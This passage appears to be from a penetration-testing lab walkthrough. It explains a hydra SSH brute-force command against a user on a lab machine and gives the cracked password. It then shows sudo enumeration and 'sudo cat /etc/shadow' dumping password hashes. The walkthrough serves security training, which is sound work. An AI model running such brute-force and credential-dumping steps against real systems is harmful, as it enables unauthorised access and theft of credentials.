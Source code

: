 This hydra command is a bit more complex to look at but it's pretty straight forward:

- -l aadams Where aadams is the user we're testing
- -P /usr/share/wordlists/rockyou.txt This is a really good word list full of common base words and common passwords. It is shipped with Kali by default.
- -u This option makes hydra check each password for each user, rather than checking every password for each user. It's more effective than doing one user at a time.
- -t 128 This is how many threads you want hydra to create. Increasing this value can give you some more speed when brute forcing as you can run multiple attacks in parallel.
- -n esr This parameter enables a couple of options: 
	- n test for null password
	- s test password the same as the user name
	- r reversed login as password
- 192.168.1.100 - The target IP address
- ssh - The target protocol 

We can now login to aadams with the password nostradamus.

	root@kali ~$ ssh aadams@192.168.1.100

Again we need to enumerate this user and see what we can find out. Try running the commands from before and check the outputs.

The command that should have shown something interesting should have been:
	aadams@slax:~$ sudo -l

	We trust you have received the usual lecture from the local System
	Administrator. It usually boils down to these three things:

	#1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

	Password:
	User aadams may run the following commands on this host:
	    (root) NOEXEC: /bin/ls
	    (root) NOEXEC: /usr/bin/cat
	    (root) NOEXEC: /usr/bin/more
	    (root) NOEXEC: !/usr/bin/su *root*

So what does this tell us? It means that aadams has sudo access on the machine, meaning running commands as root. Remember before when we tried to view the shadow file and we had a denied message? Well let's try that again with sudo:

	aadams@slax:~$ sudo cat /etc/shadow  
	Password:
	root:$1$TOi0HE5n$j3obHaAlUdMbHQnJ4Y5Dq0:13553:0:::::
	bin:*:9797:0:::::
	daemon:*:9797:0:::::
	adm:*:9797:0:::::
	lp:*:9797:0:::::
	sync:*:9797:0:::::
	shutdown:*:9797:0:::::
	halt:*:9797:0:::::
	mail:*:9797:0:::::
	news:*:9797:0:::::
	uucp:*:9797:0:::::
	operator:*:9797:0:::::
	games:*:9797:0:::::
	ftp:*:9797:0:::::
	smmsp:*:9797:0:::::
	mysql:*:9797:0:::::
	rpc:*:9797:0:::::
	sshd:*:9797:0:::::
	gdm:*:9797:0:::::
	pop:*:9797:0:::::
	nobody:*:9797:0:::::
	aadams:$1$6cP/ya8m$2CNF8mE.ONyQipxlwjp8P1:13550:0:99999:7:::